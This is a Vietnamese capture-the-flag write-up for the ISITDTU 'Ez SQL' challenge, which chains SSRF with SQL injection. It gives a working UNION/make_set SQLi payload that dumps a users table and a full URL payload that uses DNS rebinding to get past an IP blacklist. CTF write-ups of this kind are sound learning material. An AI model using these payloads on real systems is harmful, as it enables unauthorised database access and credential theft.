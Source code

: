 # Ez SQL

Bài này là một chall sử dụng SSRF và SQLi khá hay nên mình note lại để học tập :Đ

## SQLi

SQLi nằm ở `home.php`, và ở đây có 1 đoạn check ip:

```php
if ($_SERVER['REMOTE_ADDR'] !== "127.0.0.1") {
  die("<center>This is not a private ip</center>");
}
```

Mình tải source về build lại, xoá đoạn check phía trên đi và thực hiện SQLi trước. Đây là payload:

```sql
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Do không tìm được tên cột nên mình sử dụng `select 1,2,3,4 union select * from users` để tạo table mới từ table `users` với các cột có tên là `1`, `2`, `3` và `4` sau đó dùng `make_set` để ghép cột 1 và cột 3 lại với nhau thành một cột duy nhất.

Phần SQLi đã xong, việc còn lại cần làm là bypass SSRF.

![200](images/200.jpg)

## SSFR

SSRF nằm ở `index.php` và ở đây cũng có 1 đoạn check ip:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```

Nếu hostname mình nhập vào có ip mà khác `127.0.0.1` và `0.0.0.0` thì `curl` sẽ được thực hiện. Lúc này mình cần 1 url có ip khác `127.0.0.1` để `curl` được thực hiện và có `REMOTE_ADDR` = `127.0.0.1` để SQLi được.

Ý tưởng của mình là sử dụng DNS Rebinding, tạo 1 url mà khi query đến nó sẽ ngẫu nhiên trỏ đến `127.0.0.1` hoặc một ip nào đó. Ở đây mình dùng [requestrepo.com](https://requestrepo.com) và config như sau:

![requestrepo_config](images/requestrepo_config.png)

Mình config dùng dấu `%` như trên thì url sẽ trỏ ngẫu nhiên ra một trong hai ip mình chỉ định, mà mình cần lần đầu tiên khi check `index.php` ip là `1.2.3.4` và lần sau tại `home.php` là `127.0.0.1`. Do đó cần request nhiều lần để thấy được flag.

Payload:

```url
http://meo.tg3xz1mm.requestrepo.com/home.php?id=1%20union%20select%201,make_set(1%7C4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`

#

Đoạn payload `union select xxx` tuyệt vời trên mình có tham khảo của anh `taidh` <3
